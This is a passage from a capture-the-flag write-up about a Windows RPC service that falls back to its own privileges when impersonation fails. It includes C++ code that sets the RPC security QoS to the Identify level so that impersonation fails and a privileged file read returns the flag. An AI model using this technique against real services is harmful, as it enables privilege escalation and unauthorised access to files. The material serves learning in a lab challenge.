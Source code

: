 You can see the full code above. But the relevant part, is that `v9`, which is the flag whether the impersonation succeeded is only used to later know whether to exit from the impersonation. If the impersonation fails, the program runs with the same priviledges as the service (which presumably will be able to read the flag file). So the idea is to make `RpcImpersonateClient` fail. But how?

I was unsure, so I tried finding an answer in Google. I found this website: https://csandker.io/2021/02/21/Offensive-Windows-IPC-2-RPC.html, which mentioned the existence of **Security Quality-of-Service** that can be set by the client, and can be used to restrict the security credentials so that they can only be used for identification. This sounds exactly like what we need!

I simply used GitHub code search to find an usage `RpcBindingSetAuthInfoEx` and came with the following code:

```cpp

    auto domain = L".";
    auto user = L"Limited";
    auto pass = L"Insomnia1";

    SEC_WINNT_AUTH_IDENTITY authInfo;
    authInfo.Flags = SEC_WINNT_AUTH_IDENTITY_UNICODE;
    authInfo.Domain = (RPC_WSTR)domain;
    authInfo.DomainLength = wcslen(domain);
    authInfo.User = (RPC_WSTR)user;
    authInfo.UserLength = wcslen(user);
    authInfo.Password = (RPC_WSTR)pass;
    authInfo.PasswordLength = wcslen(pass);

    RPC_SECURITY_QOS_V5 qos{};
    qos.Version = RPC_C_SECURITY_QOS_VERSION_5;
    qos.Capabilities = RPC_C_QOS_CAPABILITIES_DEFAULT;
    qos.IdentityTracking = RPC_C_QOS_IDENTITY_DYNAMIC;
    qos.ImpersonationType = RPC_C_IMP_LEVEL_IDENTIFY;

    status = RpcBindingSetAuthInfoEx(hCtf, (RPC_WSTR)L"PRINCNAME", RPC_C_AUTHN_LEVEL_CALL, RPC_C_AUTHN_WINNT, &authInfo, 0, (RPC_SECURITY_QOS*)&qos);
    
    if (status) exit(status);
    
```

For some reason calling `InsoRpcReadFile` failed with the error `0x80070542` (Impersonation Level is Invalid). I was unsure why, but I tried using `InsoRpcReadFilePrivileged` instead and it worked and I got the flag!